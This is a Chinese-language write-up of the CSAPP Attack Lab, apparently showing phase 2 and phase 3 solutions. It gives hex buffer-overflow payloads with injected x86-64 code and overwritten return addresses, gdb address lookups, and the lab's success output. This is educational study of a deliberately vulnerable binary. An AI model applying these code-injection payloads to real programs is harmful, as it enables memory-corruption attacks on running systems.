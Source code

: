 ```bash
78 dc 61 55 00 00 00 00

$./hex2raw < ctarget.2.txt | ./ctarget -q
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
```
这里要注意
```x86asm
jmp    *$0x4017ec
; --------------
movq   $0x4017ec, %rax
jmp    *%rax
```
是不一样的，关于间接跳转这一部分书上讲得不是很清楚，推荐大家看看[这篇文章](https://www.cnblogs.com/longdouhzt/archive/2012/12/02/2798101.html)  

但教程中并不推荐使用 *jmp* 和 *call*，建议所有的跳转都用 *ret*，即使并不是为了返回函数调用  

所以接下来改用 *ret* 来跳转到 *touch2*
```bash
$cat ctarget.2.txt 
48 c7 c7 fa 97 b9 59         /* movq   $59b997fa, %rdi   */
c3                           /* retq                     */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00      /* address of injected code */
ec 17 40 00 00 00 00 00      /* address of touch2        */

$./hex2raw < ctarget.2.txt | ./ctarget -q
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
```

phase 3
---------
```
(gdb) print /x cookie
$12 = 0x59b997fa
(gdb) print /x "59b997fa"
$13 = {0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, 0x0}
(gdb) print $rsp
$14 = (void *) 0x5561dc78
(gdb) print 0x10+$rsp    
$15 = (void *) 0x5561dc88
(gdb) print touch3 
$16 = {void (char *)} 0x4018fa <touch3>
```
由于函数 *hexmatch* 和 *strncmp* 被调用时存在压栈行为，会覆盖 *getbuf* 的部分缓冲区，所以我们的 *sval* 的内容必须放在栈顶（$rsp），将 *injected code* 放在后面（0x10 + $rsp）
```bash
$cat ctarget.3.txt 
35 39 62 39 39 37 66 61 00   /* ascii code of "59b997fa" */
00 00 00 00 00 00 00
48 c7 c7 78 dc 61 55         /* movq   $5561dc78, %rdi   */
c3                           /* retq                     */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 dc 61 55 00 00 00 00      /* address of injected code */
fa 18 40 00 00 00 00 00      /* address of touch3        */

$./hex2raw < ctarget.3.txt | ./ctarget -q
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
```